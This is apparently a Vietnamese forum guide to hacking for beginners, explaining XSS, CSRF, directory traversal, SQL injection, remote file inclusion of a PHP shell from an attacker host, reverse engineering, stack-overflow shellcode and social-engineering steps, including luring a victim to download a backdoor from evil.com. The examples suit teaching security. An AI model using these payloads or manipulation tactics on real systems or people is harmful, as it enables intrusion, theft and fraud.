

|
Hướng dẫn hack tổng quan
|
|||||||
|
Lưu ý: Hướng dẫn sau đây dựa vào kinh nghiệm và góc nhìn cá nhân của tôi. tôi sẽ không chịu trách nhiệm với hành động phạm pháp mà bạn gây ra, những thông tin liệt kê dưới đây có thể sử dụng cho những mục đích phạm pháp, tôi không khuyến khích bạn làm. Xin Cảm ơn. Hướng dẫn hack tổng quan Lời nói đầu Chào bạn ! có vẻ như bạn đã đi những bước đầu tiên để đi theo một con đường rất thú vị và khó khăn.Đây là một bài viết hướng dẫn được thiết kế để giúp mọi người tránh xa những thứ như DDoSing hoặc RAT. Mặc dù chúng có mục đích của chúng, chúng đều là những công cụ thường được sử dụng bởi những người mới bắt đầu và cần ít hoặc không có kỹ năng gì về hack để sử dụng. Định nghĩa về Nghệ thuật & Khoa học Cá nhân tôi tin rằng hack vừa là nghệ thuật vừa chính là khoa học,đối với tôi hack chỉ đơn giản là sử dụng kiến thức, sự hiểu biết của mình về hệ thống để tạo ra một kết quả không mong muốn,Điều này được thấy trong việc hack máy tính, điện thoại, ổ khóa, thiết bị điện tử đa năng và thậm chí cả con người.Mục đích của Hướng dẫn Hướng dẫn này được thiết kế để giúp bạn nắm chắc các phương pháp hack và đưa ra các ví dụ về chúng, cũng như chỉ ra những gì mà bạn nên bắt đầu học.Điều kiện Không phải ai cũng có các công cụ để trở thành một "hacker đúng nghĩa" ngay từ đầu. Bởi điều này, tôi không có ý nói rằng cần phải có một máy tính, một phần mềm hoặc một bản phân phối Linux kỳ diệu nào đó. Hiếm khi những thứ đó thực sự cần thiết để bắt đầu con đường trở thành hacker của bạn. Các công cụ mà tôi thực sự đang nói đến là
Lý do cho những điều này khá đơn giản, nhưng đối với những người chưa hiểu rõ thì tôi sẽ giải thích chúng. Nhận biết chung, là một điều hiển nhiên, đòi hỏi bạn phải có khả năng tạo ra một vấn đề cho chính mình và giải quyết nó một cách hợp lý bằng thông tin được yêu cầu hoặc thông tin tìm được. Thành thạo máy tính, điều hiển nhiên, có một chút hiểu lầm ở đây rằng bạn không cần thiết phải biết kiến trúc CPU Intel, C ++,CLI ngay bây giờ. Ý tôi đơn giản là bạn có thể tiếp cận bất kỳ phần mềm nào và thông qua việc khám phá, có thể sử dụng phần mềm đó..Điều này không có nghĩa là thành thạo chỉ với một phần mềm duy nhất, nó như kiểu là việc trở thành một nhạc sĩ và có thể cầm và chơi bất kì một nhạc cụ nào và tạo ra những giai điệu.Không cần hướng dẫn, chưa từng huấn luyện, theo trực giác. Từ nhưng điều trên ta nên luôn học các ngôn ngữ và khái niệm dựa trên việc khai thác lỗ hổng. Chỉ Phân vùng các lỗ hổng PHP hoặc XSS sẽ khiến bạn bị bế tắc. Tự học & mày mò, một phương pháp tốt. Cho dù bạn đang theo học tại MIT, hay theo học của Kevin Mitnick, hay tham gia các lớp học ban đêm để đạt được mục tiêu trở thành một hacker, bạn phải luôn là người tự chủ động, thực hành và xem cách nó hoạt động.Để có động lực tự học và trả lời những câu hỏi mà chưa ai hỏi. Không có mục tiêu nào ngọt ngào hơn là hoàn thành một điều gì đó mà không cần ai trợ giúp. Lưu ý: Sẽ có những chủ đề trong bài viết này mà bạn có thể phải tra cứu trên mạng. Hacking là một mảng rất rộng vì vậy mà để tổng hợp hết chi tiết về nó trong một bài viết này là rất khó. Vì thế mà có đôi cái sẽ không được giải thích quá chi tiết và đầy đủ được. HACK WEB APPLICATION Một trong những điều đáng tiếc nhất về "hack" web hiện đại đó là nó hiếm khi tuyệt vời như người ta nghĩ.Nó giống như ảo thuật, "phép thuật" bị mất khi và chỉ khi bạn nhận ra nó có mẹo rất đơn giản và nhàm chán.Các Tài khoản đã bị lừa đảo, các câu hỏi bảo mật đã bị đoán mò, hay nạn nhân đã đăng nhập vào một máy tính công cộng ... Nhưng ngoài thao tác của con người, tôi không coi đây là những kỹ thuật hack thực sự, chúng đều có thể ngang bằng với RAT và DDoSing. Những thứ tôi cho là hack thực sự sẽ phải có, nhưng không giới hạn ở những điều sau ..
Lý do tôi mở đầu danh sách trên với "Tạo" là bởi vì việc sử dụng lại một đoạn mã khai thác lỗ hổng đã được phát hiện trước đó không giúp bạn cải thiện nhiều kĩ năng hack.Mặc dù việc tìm kiếm và thực hiện các khai thác lỗ hổng đôi khi có thể đòi hỏi một lượng kỹ năng, nhưng điều đó không khó bằng việc tự phát triển một cuộc tấn công, nó giúp các bạn cải thiện kĩ năng rất nhiều cũng như hiểu bản chất, đến một lúc nào đó bạn sẽ tìm ra được các lỗ hổng "0day" tức là các lỗ hổng nguy hiểm mà chưa ai biết đến hoặc người ta chưa sửa chữa kịp thời.Danh sách các lỗ hổng phổ biến này không có thứ tự quan trọng cụ thể vì mỗi cuộc tấn công bằng những lỗ hổng này đều gây nguy hiểm đối với một trang web.Với những điều đã nói ở trên, bây giờ tôi sẽ cố gắng xem xét từng cuộc tấn công đã được liệt kê ở trên, bao gồm "thông tin", "lý do", "tại sao chúng hoạt động theo cách đó" và "cách chúng bị khai thác". - Cross Site Scripting (XSS) Để nắm bắt đầy đủ và hiểu cách các chức năng của XSS, tôi tin rằng bạn nên có một số kinh nghiệm hiểu biết qua sau đây ...
Cross site scripting là một trong những cuộc tấn công có thể bao gồm từ việc làm thay đổi chức năng của một trang nhỏ cho đến chiếm toàn bộ trang web. Ý tưởng chung của việc khai thác này là kẻ tấn công sẽ tiêm (inject) đoạn mã javascript vào một trang nơi mà sau đó nạn nhân sẽ tự động chạy đoạn mã đó bằng cách truy cập trang đó. Đây là một ví dụ nhanh. Giả sử trang web nạn nhân có chức năng tìm kiếmchuỗi đã tìm kiếm sau đó hiển thị kết quả. Một cái gì đó rất phổ biến. Nhưng cũng cần nói thêm rằng nạn nhân không có nhiều kinh nghiệm về PHP nên họ không lọc ra các dạng HTML trong kết quả tìm kiếm. Đây hiện là một dạng khai thác XSS tiềm năng. CODE CỦA TRANG MÀ CHUẨN BỊ TẤN CÔNG Code: Bây giờ ví dụ nếu bạn truy cập http://example.com/search.php?q=cat%20videos bạn sẽ nhận được một trang có thông báo sau.. Code: You searched for "cat videos"Những ai tinh ý một chút cũng có thể biết tôi đang dự định gì với cái này ... Nếu người ta thêm một thẻ script vào chuỗi tìm kiếm, nó sẽ chạy script của tôi trên trang đó cho bất kỳ ai theo liên kết của chúng tôi.Đây có thể là một cách dễ dàng để đánh cắp cookie trình duyệt (phiên người dùng) của quản trị viên. Nếu chúng ta nhập http://example.com/search.php?q=<script>.../script> thì điều này sẽ dẫn đến một trang như thế này .. Code: You searched for "<script>alert('XSS');</script>"Lúc này trang web sẽ thực thi đoạn mã javascript đó và tạo ra một cửa sổ bật lên chỉ đơn giản hiển thị là "XSS". Tại thời điểm này, bạn có thể sử dụng trình đánh cắp cookie hoặc tạo trang lừa đảo bằng javascript. Nếu bạn muốn theo dõi hướng dẫn XSS sâu hơn và chuyên sâu hơn, hãy truy cập vào đây : http://greysec.net/showthread.php?tid=177 Bây giờ, trong khi đây chỉ là một mục tổng quát nhanh về XSS, đây là một chủ đề rộng lớn . Có rất nhiều tài nguyên và trò chơi chiến tranh tuyệt vời để học hỏi, tất cả đều có thể dễ dàng tìm thấy thông qua tìm kiếm trên Google. - Cross Site Request Forgery (CSRF) Để hiểu đầy đủ về cách thức hoạt động của CSRF, tôi tin rằng bạn nên có một số kinh nghiệm sau đây ...
Cross Site Request Forgery có thể được mô tả là buộc nạn nhân phải tự động gửi dữ liệu đến một trang web đáng tin cậy. Đây là một khai thác tồn tại hoàn toàn do sự thiếu hiểu biết hoặc cấu hình máy chủ không tốt. Ý tưởng chung của CSRF là dữ liệu được gửi đến một trang web đáng tin cậy mà nạn nhân không biết.Một số ví dụ có thể bao gồm việc sử dụng biểu mẫu thay đổi mật khẩu trên một trang web để cập nhật mật khẩu của họ thành một thứ khác, nhận được lượt thích hoặc xếp hạng trên mạng xã hội hoặc thậm chí gửi tiền qua ngân hàng Đây là một ví dụ.. Giả sử có một trang web ngân hàng có chức năng cho phép người dùng gửi tiền vào một tài khoản khác thông qua một trang web. Bây giờ ta cũng giả sử có trang web của ngân hàng đó không kiểm tra liên kết giới thiệu HTTP trong quá trình gửi biểu mẫu ( form submissions ).Bằng cách sử dụng dịch vụ,ta có thể dễ dàng tìm ra cách hệ thống hoạt động. Người dùng đăng biểu mẫu sau đó họ được đưa đến một đường dẫn như http://example.com/sendmoney?to=bobbyjon...eason=rent Bây giờ chúng ta hãy mời nạn nhân xem trang web mới của chúng ta mà chúng ta đang làm việc (phần này sẽ được coi là thao tác của con người) thông qua email hoặc tin nhắn mạng xã hội bạn sẽ dụ dỗ nạn nhân bấm vào đường link. Trích dẫn:Này phúc, Bây giờ trên trang này, bạn sẽ có một cái gì đó tương tự như thế này ... Code: <img src="http://example.com/sendmoney?to=attacker&amount=1337.00&reason=exploits">Khi trình duyệt của Phúc mở hình ảnh đó, nó sẽ hiển thị hình ảnh bị hỏng cho phúc. Quan trọng hơn, nó sẽ buộc Phúc (nếu anh ấy đã đăng nhập vào ngân hàng) gửi cho kẻ tấn công $1337.00 mà anh ấy không biết, cho đến khi ấy kiểm tra số dư của mình. TÚM CÁI VÁY LẠI cho bạn nào chưa hiểu, như ví dụ ở trên CSRF sẽ khiến cho bạn khi truy cập vào đường link của kẻ tấn công sẽ đưa bạn đến trang web chính chủ nào đó, nhưng những thông tin bạn nhập vào kết quả nó sẽ chuyển về host mà kẻ tấn công đang nắm giữ hay nếu bạn đã đăng nhập sẵn trang web đó, cookie của bạn sẽ gửi đến kẻ tấn công và họ có thể đăng nhập vào tài khoản của bạn. CSRF là một chủ đề rất rộng, giống như tất cả những thứ liên quan đến hack, và không thể được đề cập sâu mà nó thực sự xứng đáng. Tôi khuyên bạn nên kiểm tra nhiều tài nguyên Internet về nó có sẵn thông qua tìm kiếm trên Google. - Directory Transversal Attack Để nắm bắt đầy đủ và hiểu cách các chức năng chuyển đổi thư mục, tôi tin rằng bạn nên có một số kinh nghiệm sau đây ...
Một cuộc tấn công xuyên thư mục (directory transversal attack) chỉ đơn giản là buộc một trang web để lộ các tệp bị hạn chế bằng cách chỉnh sửa đường dẫn nơi máy chủ đang tìm kiếm. Một ví dụ đơn giản sẽ là một trang web hiển thị các tệp văn bản được yêu cầu thông qua đường dẫn, nhưng đối với mục đích của ta, nhà phát triển không hề biết về sự chuyển đổi thư mục này. CODE TRANG WEB CHUẨN BỊ TẤN CÔNG... Code: Bây giờ, nếu bạn truy cập http://example.com/?file=news.txt máy chủ sẽ cung cấp /home/webserver/http/txt/news.txt. cho người dùng.Nhưng giả sử có một tệp cấu hình mà ta muốn xem trong thư mục /home/webserver/secret.config chúng ta có thể truy cập nó bằng cách tải lên URL sau. http://example.com/?file=../../secret.config Sử dụng thư mục đặc biệt "..", chúng tôi có thể truy cập một thư mục nhiều lần cho đến khi chúng tôi đặt đường dẫn đến vị trí mong muốn. Đường dẫn được viết đầy đủ sẽ l /home/webserver/http/txt/../../secret.config the two .. hủy bỏ các thư mục trước đó đưa chúng ta vào thư mục /home/webserver directory. Chuyển đổi thư mục, khi được phát hiện, có thể được sử dụng để khám phá một lượng lớn dữ liệu. Mọi thứ từ mã nguồn, cấu hình cơ sở dữ liệu, mật khẩu hoặc tệp bí mật. Giống như XSS, tôi khuyên bạn nên nghiên cứu thêm về chuyển đổi thư mục vì bạn có thể bắt gặp các khái niệm thú vị khác như byte null để bỏ qua tên tệp lực và các kĩ thuật khác. - SQL Injection Để hiểu đầy đủ về cách các hàm SQL injection, tôi tin rằng bạn nên có một số kinh nghiệm sau đây ...
Lỗi khai thác thần thánh, SQL injection. Lỗ hổng này là một cái gì đó ngày càng trở nên khó thực hiện và cũng rộng lớn như ngôn ngữ mà nó bắt nguồn. Để hiểu những điều cơ bản về SQL injection, đầu tiên ta phải thực sự hiểu về SQL và PHP.Như đã nói SQL injection là một cách để sửa đổi một truy vấn SQL bằng cách chèn các ký tự không hợp lệ vào dữ liệu đang được truy vấn sử dụng.Có rất nhiều cách sử dụng cho SQL injection nhưng ví dụ phổ biến nhất là vào web không cần đăng nhập,xem dữ liệu web, xem tài khoản mật khẩu người dùng, admin của website. Với điều đó đã nói, tôi vẫn phải khẳng định rằng SQL injection rất mạnh. Một ví dụ đơn giản ... Giả sử có một trang web có hình thức đăng nhập đơn giản với tên người dùng và mật khẩu. Rất chuẩn, nhưng điều gì sẽ xảy ra nếu nhà phát triển không biết gì về SQL injection và làm thế nào để ngăn chặn nó? Để tránh có một lượng lớn mã PHP cho một ví dụ nhỏ như vậy, tôi sẽ viết mã giả và sẽ chỉ tập trung vào phần xác thực người dùng của mã. Đoạn mã xác thực của web Code: $query = sql('SELECT * FROM users WHERE name="' . $username . '" AND password="' . md5($password) . '"');Khá đơn giản ... Truy vấn sql kiểm tra xem tên người dùng với mật khẩu được đưa vào có tồn tại hay không, nếu tồn tại, hãy tạo một phiên đăng nhập cho người dùng đó. Nhưng điều gì sẽ xảy ra nếu chúng ta thao tác dữ liệu để làm cho truy vấn SQL không phù hợp với ý muốn của chúng ta? Điều gì sẽ xảy ra nếu ta lấy SELECT * FROM users WHERE name="someusername" AND password="RANDOMINFORMATION" và biến nó thành truy vấn bên dưới bằng cách chèn người dùng của chúng ta là : "OR" 1 "=" 1 "-- SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION" Điều này sẽ load hết thông tin dữ liệu về mọi người dùng từ bảng người dùng (table), dẫn đến việc sử dụng thông tin đăng nhập với tư cách là người dùng trong cơ sở dữ liệu (nhiều khả năng là quản trị viên).Chúng ta hãy mổ xẻ truy vấn thêm .... Dấu - thực sự là một "comment" sẽ khiến mysql bỏ qua bất kỳ thứ gì ở bên trái của dấu -, tương tự với / * ( nếu bạn chưa biết comment là gì trong lập trình thì hãy search gu gồ :)) SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION" Vì vậy, truy vấn của chúng ta bây giờ là .. SELECT * FROM users WHERE name="" OR "1"="1" Cái nào dễ đọc hơn. Tại thời điểm này, truy vấn nói rằng hãy chọn tất cả các trường từ người dùng bảng mà tên trống OR 1 equals 1. Đây là một truy vấn luôn đúng.Không có người dùng trống nhưng 1 sẽ luôn bằng 1 cho nên dẫn đến tất cả người dùng bị loại bỏ đồng nghĩa với việc bạn sẽ bypass thành công đăng nhập được vào hệ thống. Nếu bạn có DB mysql với bảng người dùng tương tự như bảng này, tôi khuyên bạn nên thử truy vấn / thử nghiệm đó. Bây giờ, trong trường hợp này, SQL injection "OR" 1 "=" 1 "- đã hoạt động nhưng điều đó sẽ không luôn đúng trong vài trường hợp. Đôi khi bạn không thể sử dụng một số ký tự nhất định hoặc truy vấn của họ có thể sử dụng dấu nháy đơn thay vì dấu nháy kép. Đây là lúc thử nghiệm và tất nhiên bạn PHẢI đi sâu vào chủ đề này nhiều hơn. Vài ý trên như đã nói SQL injection thậm chí không bao quát được hết bề mặt của cách thức tấn công SQL injection này. Vui lòng nghiên cứu thêm về vấn đề này và luôn mở rộng tầm mắt của bạn để tìm kiếm các lỗi SQL tiềm năng này. - File Inclusion Để nắm bắt đầy đủ và hiểu cách các chức năng bao gồm tệp, tôi tin rằng bạn nên có một số kinh nghiệm sau đây ...
Ngày nay, các lỗ hổng bao gồm tệp ngày càng trở nên hiếm hơn, nhưng khi chúng được tìm thấy, chúng cực kỳ nguy hiểm. Cách khai thác này đơn giản chỉ là lừa máy chủ hiển thị mã độc hại thay vì tệp dự định. Ví dụ, giả sử tôi có một trang web có thể tải các chủ đề khác nhau dựa trên truy vấn đường dẫn như vậy ... http://example.com/?theme=dark điều này sẽ kích hoạt mã php sẽ bao gồm các tệp chủ đề thích hợp vào trang. CODE CỦA TRANG WEB BỊ TẤN CÔNG: Code: Lưu ý rằng điều này có thể so sánh với cuộc tấn công truyền qua thư mục, nhưng vì mã đang thực thi tệp được bao gồm nên rất đáng để tiêm các tệp độc hại (web shell..) thay vì cố gắng đọc các tệp cục bộ. Một cách đơn giản mà chúng ta có thể thực thi bất kỳ mã nào chúng ta muốn ở đây là viết một PHP shell và sử dụng phần mềm khai thác để chạy nó trên máy chủ nạn nhân. Sau khi viết shell , ta sẽ truy cập URL sau ... http://example.com/?theme=http://attacke...pshell.txt? Đường dẫn này buộc website phải chạy PHP shell này. Code: include('http://attackerexample.com/phpshell.txt?.php');Mảng Application Hacking Có rất nhiều kiểu hack nhưng tôi phải nói rằng hack ứng dụng là kiểu hack được khá nhiều người quan tâm.Khi tôi nói hack ứng dụng,là tôi đang đề cập đến các hoạt động sau đây là kỹ thuật dịch ngược ứng dụng, viết buffer/stack overflows (tràn bộ đệm), leo thang đặc quyền ( chiếm quyền admin của máy tính),và tất cả xung quanh việc mày mò với phần mềm ở mức độ sâu. Trước khi tiếp tục phần này, tôi phải nói rằng việc biết và thực sự hiểu ngôn ngữ lập trình C (hiểu được cách memory hoạt động, với lại c là ngôn ngữ lõi, các ngôn ngữ bậc cao được phát triển dựa trên c) cũng như có thể đọc hợp ngữ (mã máy) là điều quan trọng hàng đầu.Nếu bạn muốn thực sự tìm hiểu điều này, tôi phải nói rằng cuốn sách "The Art of Exploitation" là cuốn sách quan trọng nhất bạn nên đọc nó.Thành thật mà nói, tôi không biết liệu mình có một nền tảng kiến thức đủ lớn để thậm chí biết bắt đầu từ đâu để đề cập đến vấn đề hack ứng dụng hay không, đó là chủ đề nó lớn đến mức nào. Nhưng tôi sẽ cố gắng làm tốt nhất có thể. - Reverse Engineering (kĩ sư dịch ngược phần mềm)
Quá trình dịch ngược phần mềm có thể được sử dụng cho nhiều thứ. Nó có thể được sử dụng để tìm dữ liệu ẩn, đọc mã nguồn, crack chương trình, phân tích virus, hành vi phần mềm hoặc thậm chí làm một cái gì đó phức tạp như tìm ra cách tạo số sê-ri hợp lệ của phần mềm chẳng hạn. Ví dụ, giả sử ai đó đã viết chương trình mật khẩu khủng khiếp này và giữ mật khẩu được mã hóa bằng văn bản bằng chữ thuần túy (plaintext) vào ứng dụng. Chà, với một số kỹ thuật đảo ngược đơn giản ta sẽ giải quyết được điều đó ... Code: Sau khi chúng ta có tệp nhị phân đã biên dịch, bạn có thể disassemble (tách ra mã nguồn hoặc hợp ngữ), và vì tôi đơn giản vừa nghèo nàn (không có tiền mua bản quyền IDA) nên tôi sẽ sử dụng GDB. Code: ~/Desktop$ gcc -m32 password.c -o passBây giờ chúng ta hãy đi sâu vào mã và cố gắng tìm xem chuỗi mật mã của chúng ta có thể ở đâu ... Điều này có thể gây nhầm lẫn nếu bạn chưa bao giờ đụng vào ASM nhưng tôi hy vọng ít nhất là phần nào đó hướng dẫn các bạn. Cột bên trái là không gian bộ nhớ mà lệnh ASM nằm trong, cột thứ hai là bí danh trình gỡ lỗi GDB (ví dụ main * 10 điểm tại 0x08048525), cột thứ ba là hàm ASM và cột thứ tư là các register tham số. Điều thú vụ ở đây là main * 26. Đây là nơi chúng ta bắt đầu ghi vào bộ nhớ cho biến ẩn (chứa mật khẩu),truyền biến (và không gian tiếp theo trong bộ nhớ) được tạo xung quanh main * 14. Như bạn có thể thấy, chúng ta có XOR eax, eax viết số 0 thành eax. Sau đó, chúng ta thấy MOV DWORD PTR [ebp-0x7f], 0x6d6f6f74, nó di chuyển dữ liệu hệ thập lục phân 0x6d6f6f74 vào vị trí của thanh ghi ebp trừ đi 0x7f là 127 trong hệ thập phân.Sau đó, bạn thấy một lệnh gọi khác đến MOV DWORD PTR, sau đó lặp đi lặp lại và lặp lại cho đến khi nó là PTR BYTE. Về cơ bản, đây là cách hợp ngữ lưu trữ một chuỗi dài trong ngăn xếp kết thúc nó bằng một byte rỗng (0x0) như ngôn ngữ C thường làm. Khi điều này xảy ra, mã sẽ di chuyển con trỏ ngăn xếp (đặc biệt) bằng 0xc (số thập phân 12). Tại thời điểm đó, mã ghi đẩy 0x8048670 vào ngăn xếp (Đối số cho printf được lưu trữ ở đó) và gọi hàm printf tại 0x80483c0. Tất cả điều này có nghĩa là gì? Nói tóm lại, chúng ta đã tạo khoảng trống bộ nhớ var trống để lưu trữ, ghi rất nhiều hex vào ngăn xếp, và sau đó nó gọi hàm printf ... Có vẻ quen thuộc? Code: char pass[100];Tại thời điểm này, có thể an toàn khi nói rằng tất cả hex được lưu trữ là chuỗi mật khẩu của chúng ta, vì vậy hãy thu thập nó, nhưng hãy nhớ ngăn xếp diễn ra ngược lại ... 0x73746572636573796e616d6f6f74 nbây giờ chuyển hex này thành ascii và bạn nhận được stercesynamoot, không có ý nghĩa gì cho đến khi bạn nhớ rằng ngăn xếp đã được đảo ngược, vì vậy bạn nên đảo ngược chuỗi .. Tất nhiên đây chỉ là một chút cơ bản của nó. Có một số chuyên gia có thể thuyết trình hàng giờ mà vẫn chỉ một lần chạm vào bề mặt, đây là một lĩnh vực khó và không bao giờ kết thúc. Cách tốt nhất để thực sự học cách dịch ngược một chương trình phức tạp là viết nhiều ứng dụng phức tạp và hiểu chúng ở mức ngôn ngữ rất thấp (ASM). - Buffer Overflows Có hai loại tràn bộ đệm, ngăn xếp và heap, nhưng ý tưởng cơ bản vẫn giống nhau. Dữ liệu bị hỏng để bạn có thể thực thi mã và hy vọng ta có được shell.Các kiểu tấn công này từng rất phổ biến cho đến khi những thứ như ASLR và DEP được triển khai và được sử dụng để làm cho việc chạy mã shell trong lỗi tràn bộ đệm nhớ trở nên khó khăn hơn.ASLR (Address Space Layout Randomization) được thiết kế để di chuyển vị trí bắt đầu của bộ nhớ của mã một cách ngẫu nhiên.Điều này giảm thiểu việc sử dụng những thứ như shared object libc.so để tạo shell. Để xem nó hoạt động, hãy chạy ldd với mã nhị phân nhiều lần và xem địa chỉ bộ nhớ thay đổi. DEP (Data Execution Prevention) được thiết kế để ngăn mã thực thi chạy ở các vị trí bộ nhớ không thực thi.tuy bản thân nó khá là vô dụng, nhưng khi được sử dụng song song với ASLR thì nó gần như có khả năng chống. Tôi sẽ không đề cập đến việc bypass ASLR và DEP, nhưng tôi chắc chắn rằng với một số nghiên cứu, bạn có thể tìm hiểu thêm về nó.Tràn bộ đệm (Lưu ý: đối với các ví dụ thực tế và thực hành, hãy đọc "Smashing The Stack For Fun And Profit" by Aleph One (tôi chỉ trình bày lý thuyết đằng sau nó.) Tôi sẽ không review rõ các chức năng của ngăn xếp như thế nào trong phần này. Đối với ngăn xếp, bạn có thể dễ dàng đọc bài báo nêu trên.Nhưng ý tưởng chung của tràn bộ đệm là tìm cách nhập dữ liệu vào một chương trình dễ bị tấn công (Điển hình là thông qua một tham số trong chương trình).Sau đó đưa dữ liệu vào chương trình cho đến khi không gian được cấp phát trong bộ nhớ đầy sau đó, bạn có thể vượt qua giới hạn đó bằng cách thêm nhiều dữ liệu hơn nữa và nó sẽ dẫn đến "Lỗi tràn ngăn xếp" mà bạn có thể đã gặp trong các chương trình khác nhau, cách phổ biến nhất để khai thác lỗi này là đầu tiên xây dựng một đoạn mã C hoặc mã Assembly tạo ra shell, biên dịch nó và sau đó chuyển đổi nó thành mã hex. (Ví dụ: Đây là shell gọi system ("/bin/sh/"); "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80" Khi bạn đã có shell, bây giờ bạn cần phải tìm ra cần bao nhiêu dữ liệu để lấp đầy ngăn xếp, tiếp theo là shell, sau đó là 4 byte NOP (NOP trong asm là không làm gì, ta sẽ NOP các câu lệnh và ghi đè code shell của chúng ta lên đó để kiểm soát máy tính) và cuối cùng là địa chỉ trả về buộc chương trình phải chạy shell của chúng ta.Lúc đầu, điều này có vẻ hơi phức tạp nhưng hãy để tôi giải thích thêm ... Trong một ngôn ngữ biên dịch khi bạn khai báo một biến, bạn thường phải cung cấp cho nó một phạm vi. Điều này cho phép mã Assembly xác định một phần bộ nhớ chưa được khởi tạo.Điều này có vẻ ổn, nhưng đôi khi các chương trình ghi mọi đầu vào vào bộ nhớ một cách không cố ý trong khi không rõ giới hạn của nó là gì.Bằng cách vượt qua giới hạn chương trình ghi dữ liệu biến vào ngăn xếp (Đây là nơi mà phần còn lại của các lệnh hợp ngữ nên có). Đây là một ví dụ về một chương trình đang chạy mà không bị lỗi tràn bộ đệm ...
Như đã nêu ở trên, đây chỉ là lý thuyết nhưng có NHIỀU hướng dẫn thực tế, Tôi khuyên bạn nên thử tất cả chúng nếu bạn quan tâm đến lỗi tràn bộ đệm và cách chúng hoạt động ở mức độ thực tế. Human Manipulation (Thao tác con người) & Social Engineering ( kỹ thuật xã hội ) Có một số người có thể coi thao tác của con người là hack và có một số người xem nó chỉ đơn giản là một kỹ năng giao tiếp thao túng hay đơn giản là lừa đảo... trong một vụ hack thành công lớn.Tôi xem nó như một nghệ thuật, thao tác của con người là một tác phẩm sống.Tương tự như hack ứng dụng, thao túng là một lĩnh vực rất rộng có hàng trăm hàng trăm phương pháp và lý do.Nhưng mọi cuộc tấn công ít nhiều đều tuân theo các bước thể hiện trong sơ đồ dưới đây. Bên dưới biểu đồ, tôi sẽ cố gắng giải thích một số kỹ thuật và phương pháp đằng sau mỗi bước. - Footprinting ( Dấu chân ) Như mọi người đã từng nghe ở điểm này hay điểm khác "Tri thức là sức mạnh". Footprinting chỉ đơn giản là sử dụng môi trường của mục tiêu để thu thập thông tin với hy vọng hỗ trợ một cuộc tấn công trong tương lai.Có rất nhiều thứ thường được để lại trong văn phòng có thể được sử dụng để đánh dấu mục tiêu. Đây chỉ là một vài trong số thứ ...
Bất cứ thứ gì bạn có thể thu thập có thông tin đều nên được sao chép hoặc ghi nhớ. Điều này sẽ cho phép bạn hiểu tâm lý và lịch trình của nạn nhân tiềm năng của bạn. - Establishing Trust (Thiết lập niềm tin) Những người bình thường đều có một điểm chung là sự ghi nhớ và hiểu biết trước đó. Thu thập thông tin là việc có thể được thực hiện đơn giản qua một email hoặc một cuộc gọi điện thoại nhanh chóng. Không cần yêu cầu kiến thức kỹ thuật hoặc hack, chỉ cần tận dụng sự thiếu hiểu biết, thụ động và mong muốn phục vụ khách hàng của nạn nhân. Cách nhanh nhất để khiến ai đó nói về thông tin quan trọng tiềm ẩn là có được mối quan hệ nhất định với những người sớm trở thành nạn nhân. Để có được lòng tin của nạn nhân, bạn có thể sử dụng một trong các phương pháp sau ...
- Psychological Manipulation (Thao tác Tâm lý) Khi mối quan hệ đã được thiết lập và kẻ tấn công hiện có đủ thông tin và đủ điều kiện, đã đến lúc phải trích xuất càng nhiều thông tin nhạy cảm càng tốt. Trong giai đoạn này, kẻ tấn công sử dụng sự tin tưởng đã được thiết lập của nạn nhân để thực hiện các hành vi như ...
Khi điều này đã được thực hiện, kẻ tấn công sẽ cố gắng di chuyển đến mục tiêu tiếp theo hoặc bắt đầu xâm nhập vào hệ thống thông qua bất kỳ cửa hậu nào do nạn nhân đặt. - The Exit (Lối thoát) Để hoàn thiện và duy trì một cuộc tấn công kỹ thuật xã hội trong sạch, người ta phải thực hiện việc thoát tức là khi hoàn thành xong. Một lối thoát là sử dụng tất cả các công cụ bạn có để loại bỏ bằng chứng cho thấy một cuộc tấn công kỹ thuật xã hội đã diễn ra trong khi rời đi mà không gây ra bất kỳ nghi ngờ nào. Điều này có thể được thực hiện bằng cách thay ý định thực sự của bạn trong các hành động khác.Ví dụ, giả sử chúng tôi là kỹ thuật giao tiếp xã hội để dụ ai đó cài đặt một backdoor. Chúng tôi đã có được mối quan hệ và là một người đáng tin cậy. Thay vì bắt đầu sẽ "Ok, vui lòng mở trình duyệt của bạn và nhập http://evil.com/backdoor.exe"húng ta sẽ kết thúc ý định của mình. Cuộc hội thoại ví dụ:"Ok, vì vậy để bắt đầu, chúng ta hãy tiếp tục và kiểm tra một chút ... Vui lòng nhấn phím windows + R và gõ Msconfig" Bằng cách sử dụng kỹ thuật giao tiếp cuộc tấn công yêu cầu đơn giản và hơi khó hiểu, chúng ta đã giúp che giấu cuộc tấn công và tạo một lối thoát sạch sẽ để không bị nạn nhân nghi ngờ. ỹ thuật xã hội là một lĩnh vực rộng lớn và cần được nghiên cứu như vậy. Có rất nhiều bài báo tuyệt vời trên Internet nếu bạn chọn học trường phái tư tưởng này. - Notes on Human Behavior ( Ghi chú về hành vi của con người )
Mỗi cơ thể hoạt động theo những cách nhất định. Nếu chú ý, bạn có thể thấy cách ai đó đánh dấu và với điều đó, bạn có thể bẻ cong họ theo bất kỳ cách nào để làm theo yêu cầu của bạn. Thay vì liệt kê tất cả các đặc điểm, tôi sẽ chỉ chuyển hướng bạn đến một bài báo về thao túng con người do Dinesh Shetty viết. http://securityxploded.com/social-engine...factor.phpGhi chú của tác giả
"Hacking là một chủ đề rất rộng và đẹp, điều mà tôi rất quan tâm. Tôi hy vọng sẽ lan truyền điều đó. Tôi cũng THỰC SỰ yêu mọi người ngừng hỏi tôi cách hack facebook. Ngoài ra, nếu bạn tìm thấy bất kỳ sự khác biệt hoặc sai sót nào, vui lòng cho tôi biết và tôi sẽ sửa chúng. Tôi chỉ mong muốn có được thông tin tốt nhất mà tôi có thể thu thập cho những người tìm kiếm nó. Và như mọi khi "Hack để học, không phải học để hack"Tài nguyên
|
![[Image: xK6Ky9Z.png]](./huong_dan_hack/xK6Ky9Z.png)